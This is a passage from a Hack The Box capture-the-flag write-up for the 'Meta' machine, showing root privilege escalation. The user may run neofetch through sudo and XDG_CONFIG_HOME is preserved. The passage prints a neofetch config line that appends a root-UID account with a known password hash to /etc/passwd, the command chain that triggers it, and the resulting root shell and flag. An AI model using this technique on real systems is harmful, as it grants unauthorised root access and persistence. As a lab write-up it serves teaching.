 As usual we run our enumeration script and process and found out that our user
can run `/usr/bin/neofetch \"\"` as root without password. Also the
`XDG_CONFIG_HOME` environment variable is preserved.

    :::text
    thomas@meta:~$ sudo -l
    Matching Defaults entries for thomas on meta:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
        env_keep+=XDG_CONFIG_HOME

    User thomas may run the following commands on meta:
        (root) NOPASSWD: /usr/bin/neofetch \"\"


We modify the `neofetch` configuration file and the `image_source` parameter to
execute a command. The result of this command will be use as the `neofetch`
logo. We just create a new user with a know password (see
[Armageddon article](https://maggick.fr/2021/07/htb-armageddon.html)

`image_source="$(echo 'toto:$1$ignite$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash' >> /etc/passwd)"`

We export the configuration file, copy our local version of it (as it was
regularly rewritten) and run the `sudo` command.

`export XDG_CONFIG_HOME="/home/thomas/.config" && cp config.conf .config/neofetch/config.conf && sudo /usr/bin/neofetch \"\"`


Then we can switch user as `toto` and get a `root` shell allowing to grab the
root flag.

    :::text
    thomas@meta:~$ su toto
    Password:
    root@meta:/home/thomas# id
    uid=0(root) gid=0(root) groups=0(root)
    root@meta:/home/thomas# cd
    root@meta:~# cat root.txt
    40e95295043f27cd9f2c6e21561dbb6d


# Wrapping up

A lot of enumeration and very specific vulnerability to exploit for this box.
I really do not like subdomain enumeration on HTB :/ also, the `ImageMagick`
exploit is not 100% reliable and I had to kill the box and initiate a new one
(resetting the box was not enough)

